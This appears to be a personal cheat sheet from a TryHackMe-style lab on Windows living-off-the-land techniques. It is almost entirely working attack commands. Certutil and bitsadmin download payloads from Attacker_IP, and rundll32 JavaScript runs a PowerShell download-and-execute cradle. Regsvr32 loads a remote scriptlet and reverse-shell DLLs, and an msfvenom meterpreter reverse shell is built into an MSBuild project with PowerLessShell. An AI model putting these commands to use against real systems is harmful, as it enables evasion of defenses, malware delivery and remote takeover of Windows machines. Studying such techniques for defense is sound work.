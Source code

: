 ## Sysinternals
	\\live.sysinternals.com\tools

## File transfer
	certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
	
	bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
	
	findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe

## File Execution
#### File Explorer
	C:\Windows\explorer.exe /root,"C:\Windows\System32\calc.exe"
	C:\Windows\SysWOW64\explorer.exe /root,"C:\Windows\System32\calc.exe"

#### Wmic
	wmic.exe process call create [executable]

#### Rundll32
	## Run Calculator
	C:\Windows\System32\rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
	
	#Run powershell command
	C:\Windows\SysWOW64\rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");

## Regsvr32

	c:\Windows\System32\regsvr32.exe [reverse shell].dll
	C:\Windows\SysWOW64\regsvr32.exe [reverse shell].dll

	OR

	c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct [reverse shell].dll
	C:\Windows\SysWOW64\regsvr32.exe /s /n /u /i:http://example.com/file.sct [reverse shell].dll

## PowerlessShell

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.8.79.239 LPORT=4444 -f psh-reflection > liv0ff.ps1

msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4444;exploit"

cd /opt/PowerLessShell
python2 PowerLessShell.py -type powershell -source liv0ff.ps1 -output liv0ff.csproj

c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```